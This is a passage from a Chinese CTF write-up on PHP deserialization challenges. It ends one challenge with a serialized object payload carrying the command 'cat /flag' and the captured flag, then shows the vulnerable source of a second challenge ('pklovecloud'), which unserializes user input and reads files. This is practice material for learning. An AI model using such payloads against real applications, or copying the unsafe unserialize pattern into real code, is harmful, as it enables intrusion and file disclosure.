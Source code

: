 得到payload：

```php
O:2:"Ha":3:{s:5:"start";a:1:{s:3:"POC";s:4:"1111";}s:6:"start1";O:2:"Rd":3:{s:6:"ending";N;s:2:"cl";O:2:"Er":2:{s:6:"symbol";b:1;s:4:"Flag";s:9:"cat /flag";}s:3:"poc";N;}s:6:"start2";s:5:"11111";}
```

拿到flag：`<font style="color:rgb(0, 0, 0);">flag{Y0u_a2e_S0_G00d!!!!!}</font>`

----

# [第五空间 2021]pklovecloud

### 源码
```php
<?php  
include 'flag.php';
class pkshow 
{  
    function echo_name()     
    {          
        return "Pk very safe^.^";      
    }  
} 

class acp 
{   
    protected $cinder;  
    public $neutron;
    public $nova;
    function __construct() 
    {      
        $this->cinder = new pkshow;
    }  
    function __toString()      
    {          
        if (isset($this->cinder))  
            return $this->cinder->echo_name();      
    }  
}  

class ace
{    
    public $filename;     
    public $openstack;
    public $docker; 
    function echo_name()      
    {   
        $this->openstack = unserialize($this->docker);
        $this->openstack->neutron = $heat;
        if($this->openstack->neutron === $this->openstack->nova)
        {
        $file = "./{$this->filename}";
            if (file_get_contents($file))         
            {              
                return file_get_contents($file); 
            }  
            else 
            { 
                return "keystone lost~"; 
            }    
        }
    }  
}  
```